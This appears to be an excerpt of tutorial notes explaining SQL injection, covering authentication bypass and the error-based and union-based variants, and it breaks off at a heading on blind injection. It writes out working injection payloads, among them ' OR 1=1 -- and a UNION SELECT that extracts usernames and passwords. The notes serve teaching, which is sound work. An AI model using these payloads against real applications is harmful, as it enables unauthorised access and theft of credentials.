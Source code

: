 ## How it works

Untrusted input is **injected directly** into an SQL query:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'pass';
```

If unsanitized, attacker inputs:

```sql
' OR 1=1 --
```

Query becomes:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```

Always true → Authentication bypassed.

---

# Types of SQL Injection

---

## 1. **Classic / In-band SQLi**

Direct results in the browser/app.

### a. **Error-based**

- Forces the database to generate errors that leak data.
    
- Example:
    
```sql
' AND extractvalue(1, concat(0x7e, version())) --
```
    

### b. **Union-based**

- Uses `UNION` to combine results from multiple queries.

- Example:

```sql
' UNION SELECT null, username, password FROM users --
```


---

## 2. **Blind SQLi**
